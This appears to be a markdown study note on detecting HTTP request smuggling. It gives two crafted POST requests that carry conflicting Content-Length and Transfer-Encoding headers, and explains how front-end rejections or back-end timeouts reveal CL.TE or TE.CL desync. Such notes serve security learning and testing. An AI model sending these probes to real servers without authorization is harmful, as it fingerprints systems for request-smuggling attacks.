 # Pre-requisites

![](../../Attachments/Req%20Smug/Preparing%20Steps%20for%20Http%20Request%20smugglind.png)

# Detection

![](../../Attachments/Req%20Smug/Detection%20HTTP%20Request%20Smuggling.png)

Req 1:
``` HTTP 
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```
Req 2:
```HTTP
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```


### For Request 1
###### Front-end Rejected -> TE.{CL OR TE}

![](../../Attachments/Req%20Smug/Invalid%20Chunk%20SIze.png)

###### Backend Timeout -> CL.TE

![](../../Attachments/Req%20Smug/Backend%20Timeout%20first%20req.png)

### For Request 2
###### Backend Timeout -> TE.CL

![](../../Attachments/Req%20Smug/Backend%20Timeout%20req%202.png)


